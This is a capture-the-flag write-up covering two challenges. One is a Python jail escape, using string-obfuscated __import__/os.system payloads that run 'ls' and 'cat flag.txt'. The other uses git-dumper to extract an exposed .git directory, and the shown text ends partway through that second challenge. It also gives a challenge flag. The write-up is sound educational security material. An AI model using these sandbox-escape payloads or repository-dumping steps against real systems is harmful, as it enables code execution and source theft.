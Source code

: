 ## **Simple_Jail**

![X category](https://img.shields.io/badge/category-PWN-blue.svg)
![X points](https://img.shields.io/badge/points-100-green.svg)

**Challenge Description :** Arrivera-tu à t'échapper de la prison et trouver le flag ?

### Approach

This challenge to espace the python sandbox but this sandbox don't allow to execute `import`, `os`, etc...

I found good article for resolve this challenge: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-jails-escape/

```shell
print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls'))
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')

print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat flag.txt'))
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag.txt')
```

**Flag :** `ws{Cr4ck3d_PyJ4il}`

## **Retour_vers_le_passe**

![X category](https://img.shields.io/badge/category-Web-blue.svg)
![X points](https://img.shields.io/badge/points-100-green.svg)

**Challenge Description :** Arriveras-tu à retourner dans le passé ?

### Approach

When I see the title of the challenge I can think about `git` (tool for develop and have history of the development).

In fact, I can add `/.git` for have Index of the folder. Now I can extract this with `git-dumper`:
```shell
git-dumper http://challenges.pwner.ovh:33181/.git .
```

With `git log` I can see precedent commits and do `git diff master <commit>`: